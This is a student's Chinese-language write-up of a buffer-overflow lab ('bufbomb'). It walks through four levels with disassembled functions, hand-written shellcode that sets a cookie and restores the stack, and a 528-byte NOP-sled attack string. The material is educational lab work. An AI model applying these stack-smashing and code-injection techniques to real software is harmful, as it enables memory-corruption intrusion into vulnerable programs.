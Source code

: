 `fizz`

`fizz()`需要将`makecookie`产生的`cookie`作为参数传入。

```
$./makecookie U202215559
0x26e03bce
```

```asm6502
080491ec <getbuf>:
 80491ec:    55                       push   %ebp
 80491ed:    89 e5                    mov    %esp,%ebp
 80491ef:    83 ec 38                 sub    $0x38,%esp
 80491f2:    8d 45 d8                 lea    -0x28(%ebp),%eax
 80491f5:    89 04 24                 mov    %eax,(%esp)
 80491f8:    e8 55 fb ff ff           call   8048d52 <Gets>
 80491fd:    b8 01 00 00 00           mov    $0x1,%eax
 8049202:    c9                       leave  
 8049203:    c3                       ret   
```

```asm6502
08048cba <fizz>:
 8048cba:    55                       push   %ebp
 8048cbb:    89 e5                    mov    %esp,%ebp
 8048cbd:    83 ec 18                 sub    $0x18,%esp
 8048cc0:    8b 45 08                 mov    0x8(%ebp),%eax
 8048cc3:    3b 05 20 c2 04 08        cmp    0x804c220,%eax
 8048cc9:    75 1e                    jne    8048ce9 <fizz+0x2f>
 8048ccb:    89 44 24 04              mov    %eax,0x4(%esp)
 8048ccf:    c7 04 24 2e a1 04 08     movl   $0x804a12e,(%esp)
 8048cd6:    e8 f5 fb ff ff           call   80488d0 <printf@plt>
 8048cdb:    c7 04 24 01 00 00 00     movl   $0x1,(%esp)
 8048ce2:    e8 5d 06 00 00           call   8049344 <validate>
 8048ce7:    eb 10                    jmp    8048cf9 <fizz+0x3f>
 8048ce9:    89 44 24 04              mov    %eax,0x4(%esp)
 8048ced:    c7 04 24 c4 a2 04 08     movl   $0x804a2c4,(%esp)
 8048cf4:    e8 d7 fb ff ff           call   80488d0 <printf@plt>
 8048cf9:    c7 04 24 00 00 00 00     movl   $0x0,(%esp)
 8048d00:    e8 8b fc ff ff           call   8048990 <exit@plt>
```

我们首先将返回地址改为`08048cba`，即`fizz()`的首地址。

观察`fizz()`函数，我们可以判断出`fizz()`接受的参数储存在栈上，在`0x8048cc0`处，这个参数的地址是`0x8(%ebp)`，即调用的`getbuf()`的返回地址所在地址`+0x8`，只需要在这个位置注入我们的`cookie`即可。

`bang`

通过`gdb`我们可以得知`global_value`的地址为`0x804c218`，`bang()`的地址为`0x8048d05`。编写代码如下:

```asm6502
00000000 <.text>:
   0:    b8 ce 3b e0 26           mov    $0x26e03bce,%eax
   5:    a3 18 c2 04 08           mov    %eax,0x804c218
   a:    68 05 8d 04 08           push   $0x8048d05
   f:    c3                       ret    
```

我们得到了攻击代码，接下来我们通过将代码注入到缓存区，使程序跳转到我们的攻击代码。

现在的问题在于，我们应该将代码放在哪里呢？

通过`gdb`我们可以知道，我们输入的字符串首地址为`0x55683298`，不妨就放在这里吧！

`boom`

将攻击代码存储在字符串这块空间内。先将`getbuf`的返回地址改为攻击代码的首地址。在攻击代码中我们要将`%eax` 改为`0x26e03bce`，使得`getbuf` 返回正确的cookie。接着我们要还原栈状态和寄存器状态，将`%ebp` 改为`0x556832c0`，压入原本的返回地址`0x8048e81`和原本存入的`%ebp`值`0x556832f0`。

万事俱备，我们开始编写攻击代码。

```asm6502
00000000 <.text>:
   0:    b8 ce 3b e0 26           mov    $0x26e03bce,%eax
   5:    bd c0 32 68 55           mov    $0x556832c0,%ebp
   a:    68 81 8e 04 08           push   $0x8048e81
   f:    68 f0 32 68 55           push   $0x556832f0
  14:    c9                       leave  
  15:    c3                       ret    
```

如`bang`中所做的那样，将攻击代码注入到缓存区即可。

`nitro`

```asm6502
08049204 <getbufn>:
 8049204:    55                       push   %ebp
 8049205:    89 e5                    mov    %esp,%ebp
 8049207:    81 ec 18 02 00 00        sub    $0x218,%esp
 804920d:    8d 85 f8 fd ff ff        lea    -0x208(%ebp),%eax
 8049213:    89 04 24                 mov    %eax,(%esp)
 8049216:    e8 37 fb ff ff           call   8048d52 <Gets>
 804921b:    b8 01 00 00 00           mov    $0x1,%eax
 8049220:    c9                       leave  
 8049221:    c3                       ret    
 8049222:    90                       nop
 8049223:    90                       nop
```

可知`buf`的起始位置为`-0x208(%ebp)`，要覆盖该函数的返回地址，我们写入`0x208+0x4+0x4 = 528`个字节即可。

```asm6502
08048e01 <testn>:
 8048e01:    55                       push   %ebp
 8048e02:    89 e5                    mov    %esp,%ebp
 8048e04:    53                       push   %ebx
 8048e05:    83 ec 24                 sub    $0x24,%esp
 8048e08:    e8 da ff ff ff           call   8048de7 <uniqueval>
 8048e0d:    89 45 f4                 mov    %eax,-0xc(%ebp)
 8048e10:    e8 ef 03 00 00           call   8049204 <getbufn>
 8048e15:    89 c3                    mov    %eax,%ebx
 8048e17:    e8 cb ff ff ff           call   8048de7 <uniqueval>
 8048e1c:    8b 55 f4                 mov    -0xc(%ebp),%edx
 8048e1f:    39 d0                    cmp    %edx,%eax
 8048e21:    74 0e                    je     8048e31 <testn+0x30>
 8048e23:    c7 04 24 0c a3 04 08     movl   $0x804a30c,(%esp)
 8048e2a:    e8 41 fb ff ff           call   8048970 <puts@plt>
 8048e2f:    eb 36                    jmp    8048e67 <testn+0x66>
 8048e31:    3b 1d 20 c2 04 08        cmp    0x804c220,%ebx
 8048e37:    75 1e                    jne    8048e57 <testn+0x56>
 8048e39:    89 5c 24 04              mov    %ebx,0x4(%esp)
 8048e3d:    c7 04 24 38 a3 04 08     movl   $0x804a338,(%esp)
 8048e44:    e8 87 fa ff ff           call   80488d0 <printf@plt>
 8048e49:    c7 04 24 04 00 00 00     movl   $0x4,(%esp)
 8048e50:    e8 ef 04 00 00           call   8049344 <validate>
 8048e55:    eb 10                    jmp    8048e67 <testn+0x66>
 8048e57:    89 5c 24 04              mov    %ebx,0x4(%esp)
 8048e5b:    c7 04 24 6a a1 04 08     movl   $0x804a16a,(%esp)
 8048e62:    e8 69 fa ff ff           call   80488d0 <printf@plt>
 8048e67:    83 c4 24                 add    $0x24,%esp
 8048e6a:    5b                       pop    %ebx
 8048e6b:    5d                       pop    %ebp
 8048e6c:    c3                       ret    
```

通过该函数我们该知道从`getbufn`返回后应返回的地址为`8048e15`

且此时`%ebp`中的值为`0x28(%esp)`，那么我们写出汇编代码：

```asm6502
00000000 <.text>:
   0:    b8 ce 3b e0 26           mov    $0x26e03bce,%eax
   5:    8d 6c 24 28              lea    0x28(%esp),%ebp
   9:    68 15 8e 04 08           push   $0x8048e15
   e:    c3                       ret    ret 
```

接下来构建二进制攻击字符串，长度为528，利用nopsled的攻击方法，在真正的攻击代码之前全部填入nop指令。

![](C:\Users\abc\AppData\Roaming\marktext\images\2024-04-02-11-27-02-image.png)

现在的问题在于我们应跳转到哪里？

我们进入`gdb`，使用`-n -u U202215559`参数运行`bufbomb`，在`getbufn`开头打下断点，观察`esp`的值。

```
0x556832c4 
0x55683284
0x55683304
0x556832d4
0x55683284
```

以相同参数运行一次，可以发现每次的`esp`值相同，可见对于每个参数，栈地址每次随机的值相同。我们直接选择地址最高的一个来算即可。即`0x55683304`

选择一个合适的地址即可，此处答案并不唯一，比如我选择的是`0x5568 30f8`

至此，本次试验全部完成！

